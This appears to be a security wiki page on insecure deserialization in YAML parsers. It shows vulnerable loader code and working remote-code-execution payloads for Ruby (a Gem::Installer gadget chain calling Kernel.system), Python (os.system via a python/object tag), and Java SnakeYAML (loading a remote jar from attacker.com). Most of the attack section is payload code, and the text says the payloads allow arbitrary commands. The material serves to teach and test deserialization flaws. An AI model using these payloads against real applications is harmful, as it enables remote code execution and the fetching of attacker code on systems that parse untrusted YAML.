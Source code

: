 ```yaml
---
description: Yet Another Markup Language
---
```


# YAML

## Description

First of all, this great article explains all sorts of tricks and weirdness in YAML:

{% embed url="https://ruudvanasseldonk.com/2023/01/11/the-yaml-document-from-hell" %}
Explanation and examples of many YAML tricks
{% endembed %}

## Insecure Deserialization

In YAML the `!` character can mean a **tag**, which allows you to execute a function in the host language with a parameter that comes right after (because why not). Many parsers implement this as it is required by the spec, but if attackers have control over the YAML file, even partially, they can use these tags to run arbitrary functions with arbitrary arguments.&#x20;

A common target for this is a function that executes shell commands, where you can gain Remote Code Execution. The following examples all execute the `id` command and allow you to execute any arbitrary commands:

### Ruby

{% code title="Vulnerable Code" %}
```ruby
require "yaml"

YAML.load(File.read("data.yml"))
```
{% endcode %}

#### Payload (>2.7, [source](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/))

{% code title="data.yml" %}
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```
{% endcode %}

### Python

{% code title="Vulnerable Code" %}
```python
from yaml import Loader, load

deserialized = load(open('data.yml'), Loader=Loader)
```
{% endcode %}

#### Payload

{% code title="data.yml" %}
```yaml
!!python/object/apply:os.system
- "id"
```
{% endcode %}

### Java - SnakeYAML (<2.0)

{% embed url="https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471" %}
Walkthrough of vulnerability as theory and exploitability
{% endembed %}

{% code title="Vulnerable Code" %}
```java
import org.yaml.snakeyaml.Yaml;

Yaml yaml = new Yaml();
FileInputStream fis = new FileInputStream("data.yml");
Map<String, Object> parsed = yaml.load(fis);
```
{% endcode %}

#### Payload

{% code title="data.yml" %}
```yaml
some_var: !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["http://attacker.com/payload.jar"]
    ]]
]
```
{% endcode %}

`/payload.jar` file:

1. [Explanation](https://www.mscharhag.com/security/snakeyaml-vulnerability-cve-2022-1471) (search "remote jar file")
2. [Proof of Concept](https://github.com/jordyv/poc-snakeyaml) with `build.sh` script (change [`exec()`](https://github.com/jordyv/poc-snakeyaml/blob/master/src/pocsnakeyaml/PocScriptEngineFactory.java#L18))

